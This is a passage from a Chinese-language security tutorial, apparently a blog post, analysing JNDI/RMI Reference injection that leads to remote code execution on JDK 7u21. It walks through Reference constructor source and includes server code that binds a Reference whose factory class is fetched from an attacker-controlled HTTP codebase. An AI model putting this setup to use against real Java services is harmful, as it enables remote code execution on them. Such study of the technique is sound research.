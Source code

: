 ```
  * @see StringRefAddr
  * @see BinaryRefAddr
  * @since 1.3
  */
```

简单解释下该类的作用就是记录一个远程对象的位置，然后服务端将实例化好的 Reference 类通过 bind 方法注册到 rmiregistry 上，然后客户端通过 rmiregistry 返回的 Stub 信息找到服务端并调用该 Reference 对象，Reference 对象通过 URLClassloader 将记录在 Reference 对象中的 Class 从远程地址上加载到本地，从而触发恶意类中的静态代码块，导致 RCE

我们使用 JDK 7u21 作为环境来进行该利用方式的深入分析

首先看下服务端的代码

```
public class RMIProvider {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException, NamingException {
//TODO 把resources下的Calc.class 或者 自定义修改编译后target目录下的Calc.class 拷贝到下面代码所示http://host:port的web服务器根目录即可
        Reference refObj = new Reference("ExportObject", "com.longofo.remoteclass.ExportObject", "http://127.0.0.1:8000/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
      //尝试使用JNDI的API来bind，但是会报错
//        Context context = new InitialContext();
//        context.bind("refObj", refObjWrapper);
        Registry registry = LocateRegistry.getRegistry(1099);
        registry.bind("refObj", refObjWrapper);
    }
}
```

可以看到在实例化 Reference 对象的时候会传递三个参数进去，这三个参数分别是

className

包含此引用所引用的对象的类的全限定名。(ps: 就是恶意类的类名或者全限定类名，经过测试该参数不是必须，为空也行，关键在于第二个参数 也就是 classFactory)

classFactory

包含用于创建此引用所引用的对象的实例的工厂类的名称。初始化为零。(ps: 第二个参数很重要 一定要写恶意类的全限定类名)

classFactoryLocation

包含工厂类的位置。初始化为零。(ps: 也就是恶意类存放的远程地址)

接下来就来跟入源码看一看

```
public Reference(String className) {
    this.className  = className;
    addrs = new Vector();
}
........
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
```
